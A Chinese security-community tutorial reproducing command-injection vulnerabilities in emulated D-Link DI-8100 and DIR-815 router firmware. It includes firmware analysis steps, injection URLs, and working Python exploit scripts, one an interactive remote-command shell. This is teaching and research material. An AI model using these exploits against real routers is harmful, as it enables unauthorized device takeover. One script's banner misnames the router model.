# IOT入门--路由器命令执行漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/18433  
> **文章ID**: 18433

---

## D-Link DI\_8100命令执行漏洞复现

### **所需工具**

**Burp Suite**-Linux下载  
[BurpSuite v2024.10汉化无cmd框版（2024.11.03更新） - 吾爱破解 - 52pojie.cn](https://www.52pojie.cn/thread-1544866-1-1.html)

配置**Burp Suite**教程  
[Burp Suite代理和火狐浏览器的设置(超详细)\_burpsuite firefox-CSDN博客](https://blog.csdn.net/Hou_Lang_/article/details/122047560)

固件下载地址:  
<http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100>  


### **漏洞分析**

使用`binwalk`对固件进行分解

```
binwalk -Me DI_8100-16.07.26A1.trx 
```

查看一下系统架构以及保护  


![OEOBUEIRO1I78~8DL]ZE}{E.png](images/img_18433_002.png)

下面使用FirmAE对固件进行仿真  
进入FirmAE工具文件夹下，使用 `run.sh` 来进行启动

```
sudo ./run.sh -d dlink <DI_8100-16.07.26A1.trx的路径>
```



选择2进入终端，然后使用`ps`命令查看进程  
我们发现程序启动之后 `jhttpd` 这个服务就启动了，所以我们主要的程序就是这个 `jhttpd` 服务,接下来我们也需要使用IDA分析这个程序  


下面来看官方的漏洞描述

```
Description  
A vulnerability, which was classified as critical, has been found in D-Link DI-8100 16.07. This issue affects the function msp_info_htm of the file msp_info.htm. The manipulation of the argument cmd leads to command injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-273521 was assigned to this vulnerability.

描述  
分类为致命的漏洞已在 D-Link DI-8100 16.07 中发现。此问题会影响文件msp_info.htm的功能msp_info_htm。对参数 cmd 的操作会导致命令注入。攻击可能是远程发起的。该漏洞已向公众披露，并可能被使用。标识符 VDB-273521 已分配给此漏洞。
```

也就是说在 `msp_info.htm` 页面中 `cmd` 参数造成命令执行。  
下面我们使用 `ida` 来分析 `jhttpd` 程序，  
我们可以通过 `msp_info` 字符串来进行定位接着查找到 `msp_info_htm` 函数  
  


函数存在的漏洞逻辑如下  
  
在 `msp_info_htm` 函数的开头，会从传进来的值中 `获取flag字符串`，如果成功获取到flag字符串然后会执行不同的命令，当我们传入的 `flag=cmd` 的时候就会执行到漏洞点，后续的 `cmd的内容` 就会被放入到 `system` 中执行

我们打开本机的浏览器，访问 `192.168.0.1:80` (需要注意FirmAE启动的这是内网，只能使用本机访问，后续还需要用到**Burp Suite**也需要提前准备好) D-Link路由器的初始账号和密码都是admin，直接登入后就可以得到下面这个页面  


我们先来试一下这个漏洞，我们按照这个漏洞的利用逻辑来写一个url进行注入  


```
192.168.0.1/msp_info.htm?flag=cmd&cmd=`echo%20aaaa>a.txt`
```

在浏览器输入这个url后，我们可以查看一下我们路由器的系统终端中是否多出了一个 `a.txt` 文件  
可以发现已经执行了我们的命令，根目录下确实多出了`a.txt`  


### **exp编写**

重新回到登入的那个界面，然后刷新界面使用Burp Suite进行抓包  


然后按照抓包得到的信息编写下面的exp

```
import requests

target_url = "http://192.168.0.1:80/msp_info.htm?flag=cmd&cmd=`echo%20aaaa>xidp.txt`"

auth_cookies = {"wys_userid": "admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}

request_headers = {
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Connection": "keep-alive"
}

response = requests.get(
    url=target_url,
    headers=request_headers,
    cookies=auth_cookies
)

if response.status_code == 200:
    print("攻击载荷成功发送！服务器响应正常")
else:
    print(f"请求失败！状态码: {response.status_code}")
```

运行脚本  


随后我们可以查看根目录下文件发现已经执行命令生成了xidp.txt  


### **简单调试**

```
# mygdb.sh
set architecture mips
set endian little
set sysroot lib/
set solib-search-path lib/
target remote 192.168.0.1:1337
b *0x0044DBF4
```

使用命令 `gdb-multiarch -x mygdb.sh`



这里A0寄存器作为第一次参数，然后调用system函数

### **DI\_8100的第二个命令执行漏洞**

同样这个固件中还有另外一个命令执行漏洞在 `upgrade_filter_asp` 这个函数也存在  


同样回到登入页面然后抓包查看信息  


编写exp

```
import requests

target_url = "http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3e%20/xidp.txt`"
# ps > /xidp.txt
auth_cookies = {"uid": "h3r4yvoOTp", "wys_userid": "admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}

request_headers = {
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Connection": "keep-alive"
}

response = requests.get(
    url=target_url,
    headers=request_headers,
    cookies=auth_cookies
)

if response.status_code == 200:
    print("攻击载荷成功发送！服务器响应正常")
else:
    print(f"请求失败！状态码: {response.status_code}")
```



## D-Link DIR 615/645/815 命令执行漏洞

### **固件下载**

固件下载:  
<https://ftp.dlink.ru/pub/Router/DIR-815/Firmware/RevA/>  


### **漏洞描述**

官方漏洞描述:  
[国家信息安全漏洞共享平台](https://www.cnvd.org.cn/flaw/show/CNVD-2018-01084)  


我们使用 `binwalk` 分解固件之后我们进入 `_DIR815A1_FW103b01.bin.extracted/squashfs-root/htdocs/web` 文件夹下，使用 `ls -la` 命令就可以看到，这个 `service.cgi` 实际是一个软连接，本质上是 `cgibin` 这个文件  


下面我们将这个 `cgibin` 放入ida中分析  
同样通过字符串定位  


找到这个叫做 `servicecgi_main` 的函数  






也就是漏洞利用的路径为 `servicecgi_main -> lxmldbc_system -> system`

下面详细分析漏洞的利用过程

在 `servicecgi_main函数` 的开头获取传参方式并进行判断  
这里的逻辑为 如果为 `POST` 则进入 `大if` 将 `v2赋值为1024` 如果不为 `POST` 则进入 `大else` 然后判断是否为 `GET`  
如果为 `GET` 则将 `v2赋值为64` 如果既不是 `POST` 也不是 `GET` 则会执行 `goto LABEL_10`  


而 `goto LABEL_10` 会导致直接跳过 `lxmldbc_system函数` ，所以我们的传参方式需要为 `POST` 或者 `GET` 其中之一  


在往下看，这里有一个 `cgibin_parse_request(sub_40A63C, 0, v2) >= 0` 的判断  
也就是说 `cgibin_parse_request(sub_40A63C, 0, v2)` 的返回值不能为负数，否则也会执行 `goto` 导致无法运行到 `system`  


我们进入 `cgibin_parse_request` 这个函数中  
可以看到函数开头使用 `getenv` 函数获取了几个环境变量，这里我们就可以判断出，如果我们想要利用漏洞就一定需要使用POST传参方式，原因如下

* `CONTENT_LENGTH` 表示请求体长度
* GET 请求的请求体长度为 **0**，因此 `getenv("CONTENT_LENGTH")` 返回 `NULL`
* 只有 POST 请求才有非零的 `CONTENT_LENGTH`

然后下面的 `v12` 是获取到环境变量中的 `?` 后面的内容，并且后续将作为参数传入到函数`sub_402B40`中



下面我们进入 `sub_402B40(&v20, v12, v13);函数` 中查看



我们可以看到传入的 `v12` 是 其中的 `a2` 并且其中还有一个 `v12` 而这个 `v12 = *(a2+v6)` 并且这个 `v6从0` 开始计算，也就相当于将 `a2` 一个个取出并且用于判断，通过判断 `&` 和 `=` 来对 `v12` 进行拆分



所以根据分析 我们可以知道 `sub_402B40函数` 是一个 `HTTP查询字符串解析器`，专门用于 `解析URL中的查询参数`（如 `?key1=value1&key2=value2`）

下面我们回到 `cgibin_parse_request` 继续往下看  
我们必须进入这个`if分支`，并且执行这个 `return ((&off_42C014)[3 * v16 - 1])(a1, a2, v7, &v14[v17]);`  
因为下面全都是 `return 负数` 这会导致我们返回到 `servicecgi_main` 中的时候会进入上述我们提到的 `if分支` 然后就会执行 `goto` 导致无法执行 `system函数`  


而这里的return逻辑 `if ( !strncasecmp(v14, v18, v17) )` 就是我们的 `v14` 的 `前v17个字节` 需要和 `v18相同`  
而这里的 `v18 = *v15 = off_42C014`   
所以需要看这个 `全局变量off_42C014`   
  


而 `off_42C014` 开头的字符串为 `application/` (其实这里固定套路了，大多数时候都是 `application/x-www-form-urlencoded`)

我们继续往下分析我们可以知道他最终是会调用 `sub_403B10` 这个函数  
  
这个函数的开头同样也是一个判断，继续进行比较后续的字符串是否为 `x-www-form-urlencoded` 所以其实我们最终需要传入的那个环境变量`Content-Type`为 `application/x-www-form-urlencoded` 才符合条件

而这个 `application/x-www-form-urlencoded` 是一种 **HTTP 请求内容编码格式**，主要用于 HTML 表单（`<form>`）提交数据时的默认编码方式，它是 Web 开发中最基础的数据传输格式之一，用于 `POST` 

所以接着我们会进入 `sub_402FFC`  
在 `sub_402FFC` 中同样有 `sub_402B40` 用于切割字符串，这里不再详细分析  


下面回到 `servicecgi_main` 继续往下看有一个 `sess_ispoweruser`   
这个函数里面有很多子函数，里面的子函数会打开很多文件，如果我们直接使用qemu之类去模拟仿真的时候会因为缺少这些文件而导致复现失败，所以这里复现的时候我们一般就直接将它nop掉就行了

然后终于就是到了我们的漏洞部分  


这里可以看到 `v5` 的内容会被拼接到system的指令中去，而 `v5` 是我们用户可控的部分，这也是漏洞产生的原因

### **漏洞复现**

使用FirmAE进行仿真  
这里我们先不修改直接使用下载的.bin文件来试一下

```
sudo ./run.sh -d dlink <DIR815A1_FW103b01.bin的路径>
```



仿真成功后可以使用浏览器进行访问 `192.168.0.1:80`  


下面编写exp

```
import requests
import urllib.parse
import sys

def exploit(target_ip, command):
    """
    利用 D-Link 路由器命令注入漏洞执行任意命令
    :param target_ip: 路由器IP地址 (FirmAE仿真地址)
    :param command: 要执行的系统命令
    """
    # 构造恶意URL（关键注入点）
    payload = f";{command};"
    encoded_payload = urllib.parse.quote(payload, safe='')
    vuln_url = f"http://{target_ip}/service.cgi?EVENT={encoded_payload}&abc"
    
    # 设置恶意请求头
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": "14",  # 必须与body长度匹配
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
        "Connection": "close"  # 防止连接复用问题
    }
    
    # 固定请求体（触发漏洞必需）
    data = "XiDP=BabyPwner"
    
    try:
        # 发送恶意请求
        response = requests.post(
            vuln_url,
            headers=headers,
            data=data,
            timeout=5,
            verify=False  # 忽略SSL证书验证
        )
        
        # 检查响应状态
        if response.status_code == 200:
            print(f"[+] 命令注入成功！状态码: {response.status_code}")
            print(f"[*] 响应内容:
{response.text[:500]}...")  # 显示部分响应
        else:
            print(f"[-] 请求失败！状态码: {response.status_code}")
            
    except requests.exceptions.RequestException as e:
        print(f"[!] 网络错误: {str(e)}")
        sys.exit(1)

if __name__ == "__main__":
    print("------- D-Link DIR-823G 命令注入漏洞 (CNVD-2018-01084) -------")
    
    # 设置目标IP（FirmAE仿真地址）
    target_ip = "192.168.0.1"  # 修改为实际仿真IP
    
    # 获取用户输入命令
    while True:
        cmd = input("command> ")
        if cmd.lower() in ["exit", "quit"]:
            break
            
        # 执行漏洞利用
        exploit(target_ip, cmd)
        
        # 验证命令执行（可选）
        if ">" in cmd:  # 如果命令有输出文件
            output_file = cmd.split(">")[-1].strip()
            check_url = f"http://{target_ip}/{output_file}"
            try:
                check_res = requests.get(check_url, timeout=3)
                if check_res.status_code == 200:
                    print(f"[+] 命令输出已保存到: {output_file}")
                    print(f"[*] 内容预览:
{check_res.text[:200]}...")
            except:
                print(f"[-] 无法验证输出文件: {output_file}")
```

这里如果我们直接运行脚本然后输入指令最后显示的结果是FAILED也就是失败了，这是因为我们还没有去掉上面我们提到的 `sess_ispoweruser`  


下面我们将`.bin`文件使用`binwalk`进行分解，然后使用IDA将`cgibin`中`sess_ispoweruser`函数去掉  
下面是程序nop修改之后的样子 下面的 `v4` 就是我们上面提到的 `v5`  
  


去掉之后我们通过IDA将修改后的部分保存，然后替换掉原本的 `cgibin` 文件  
然后我们回到 `squashfs-root` 文件夹执行下面指令

```
mksquashfs ./squashfs-root/ ./rootfs.squashfs -comp gzip
```

然后我们就可以得到 `rootfs.squashfs` 这个文件  
我们再次使用FirmAE进行仿真  
使用下面指令

```
sudo ./run.sh -d dlink <rootfs.squashfs的路径>
```

仿真成功后再次使用我们的exp，发现现在是显示 `OK` 了，创建文件也可以成功了 (但是我试了一下，ls依旧是没有回显的)  
  


这里虽然我们直接使用ls没有回显，但是我们可以创建文件来读取，如下  


想要读取完整内容，我们可以直接通过浏览器网址访问对应文件  


浏览器可以直接下载我们使用命令创建的文件  
那么这个漏洞就复现到这里

参考:  
[D-Link DI-8100命令执行漏洞复现 - IOTsec-Zone](https://www.iotsec-zone.com/article/456#di-8100)  
[D-Link DI-8100命令注入 && 调试分析 - IOTsec-Zone](https://www.iotsec-zone.com/article/454#%E6%BC%8F%E6%B4%9E%E8%B0%83%E7%94%A8%E9%93%BE%E5%88%86%E6%9E%90)  
[D-Link DIR 615/645/815 service.cgi远程命令执行漏洞](https://mp.weixin.qq.com/s/8FwdueaInaIvFVMLMY678Q)
